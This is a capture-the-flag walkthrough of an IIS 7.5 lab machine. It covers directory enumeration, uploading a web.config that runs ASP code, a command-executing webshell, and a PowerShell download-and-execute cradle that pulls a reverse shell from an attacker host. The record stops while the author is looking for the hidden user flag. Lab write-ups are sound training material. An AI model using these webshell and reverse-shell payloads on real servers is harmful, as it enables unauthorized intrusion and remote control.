# 10 - Web Server


# [IIS 7.5 was included in Windows 7 and Windows Server 2008 R2](https://en.wikipedia.org/wiki/Internet_Information_Services)



# default page



# Gobuster

```sql
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              aspx,asp,html,txt
[+] Timeout:                 10s
===============================================================
2021/06/05 16:04:00 Starting gobuster in directory enumeration mode
===============================================================

/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
```
# transfer.aspx




# transfer.aspx won't accept aspx files


# It accepts png files



# [iis 7.5 file upload exploit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)



# Here is  web.config  file from the article
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```


# Let's try to upload this file



It's uploaded but how can I see this file? Gobuster found another directory **uploadedfiles**, let's visit web.config in uploadedfiles, if we can see 3 that means our exploit is working.




It seems like we gained code execution, let's search for shell.asp in order to execute code properly. Note that the exploit article states web.config is only runs asp and not aspx

# Shell.asp



I tried to upload a good webshell but unfortunately post request doesn't work on web.config, it gives 404 error. So we are stuck with get requests that means we need to hard code our commands.


After trimming down shell.asp from laudanum. Let's try the following web.config for code execution


# web.config
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
   Dim wshell, intReturn, strPResult
   cmd = "cmd /c whoami"
   set wshell = CreateObject("WScript.Shell")
   Set objCmd = wShell.Exec(cmd)
   strPResult = objCmd.StdOut.Readall()
   Response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"
   set wshell = nothing
%>
```

# User merlin


It's working but it's not the most efficient way to execute code, we need a shell.

Here is what we need to do in a nutshell.
* Find a good reverse shell
* Open up a nc listener on port 4444 and a web server to host the reverse shell
* Download the reverse shell on the box and execute it at the same time
* Proceed with the new shell


# Reverse shell 



This file needs to be downloaded with web.config, it can be done with powershell

# Download and execute the reverse shell
```bash
<!--
<%
   Dim wshell, intReturn, strPResult
   cmd = "cmd /c powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse.ps1')"
   set wshell = CreateObject("WScript.Shell")
   Set objCmd = wShell.Exec(cmd)
   strPResult = objCmd.StdOut.Readall()
   Response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"
   set wshell = nothing
%>
-->


```





we got ourselves a shell here

# user.txt

user.txt doesn't appear on user merlin's desktop folder. As it turns out, on this box it's a hidden file. 
We can list all the files including hidden files with this line of code.


```
PS C:\Users\merlin> ls . -Force -Recurse
```
